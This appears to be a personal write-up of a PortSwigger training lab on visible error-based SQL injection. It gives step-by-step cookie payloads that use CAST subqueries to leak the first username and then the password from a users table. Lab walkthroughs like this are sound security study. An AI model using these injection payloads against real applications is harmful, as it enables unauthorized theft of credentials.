 # SQL Injection - Visible error based SQLi

## 📌 Lab Details
- **Title**: Visible error based SQLi
- **Difficulty**: Practitioner
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/706318b8f1857a10698288c9bf7712276e4ab38822541edeb0385a44da54de78?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-sql-injection-visible-error-based

## 🔍 Summary
This lab demonstrated how to use visble error messages to obtain the username of the `administrator `

## 🛠 Steps to Solve
1. Append a single quote to the TrackingId `TrackingId=ogAZZfxtOKUELbuJ'`. Notice the error message which explains that you have an unclosed string literal.
2. Added comment characters to comment out the rest of the query `TrackingId=ogAZZfxtOKUELbuJ'--`. No error means that the query is syntactically valid.
3. Now adapt the query to include a generic `SELECT` subquery `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`. Notice a different error saying `AND` condition must be a boolean expression.
4. Modifying the condition accordingly `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`. No error is recieved.
5. Added a generic `SELECT ` statement `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`. Error recieved of character limit.
6. Deleted the original `TrackingId` cookie to free up some space `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`. New error is recieved because it returned more than one row.
7. Modifying the query to return only one row `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`. The error message now leaks the first username from the `users` table.
8. Retrieving the password for the first user `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`. The password is obtained.
   
## 📖 Key Takeaways
- How to use the `CAST` function in an SQL query.
- Use of visible error for retrieval of information.
   
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/36ad818f-8ce5-4396-8da2-d975d87c7250)
![image](https://github.com/user-attachments/assets/cf178945-e027-4224-a13f-1f8d05c68c09)
![image](https://github.com/user-attachments/assets/a122a273-6021-4fbf-98bf-e0bc210f75c4)
![image](https://github.com/user-attachments/assets/7818bbf9-74d4-4fd0-b07d-657cc6a7feb1)
![image](https://github.com/user-attachments/assets/cf8615d8-e38a-4887-82d0-e7418a333bfe)
![image](https://github.com/user-attachments/assets/fca21a1d-f40d-41ff-b2cb-f955ad74ff6e)
![image](https://github.com/user-attachments/assets/3cdcf055-57da-4543-ad51-51b2033bd15b)
![image](https://github.com/user-attachments/assets/f0a9b992-c4c4-45e3-97a2-1290078fcd0b)
![image](https://github.com/user-attachments/assets/3519abc9-3a9e-45ed-a6cf-5347d3dda1db)
